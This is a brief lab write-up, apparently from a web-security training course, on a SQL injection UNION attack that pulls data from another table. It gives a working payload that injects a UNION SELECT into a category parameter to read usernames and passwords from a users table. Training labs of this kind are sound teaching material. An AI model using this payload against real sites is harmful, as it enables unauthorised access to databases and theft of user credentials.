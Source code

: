# Lab 4: SQL Injection UNION Attack, Retrieving Data from Other Tables

* **Solution**: After confirming 3 columns with NULLs, inject a UNION query to fetch usernames and passwords, placing data in string-compatible columns.
* **Final Payload**: category=Gifts' UNION SELECT NULL, username, password FROM users --
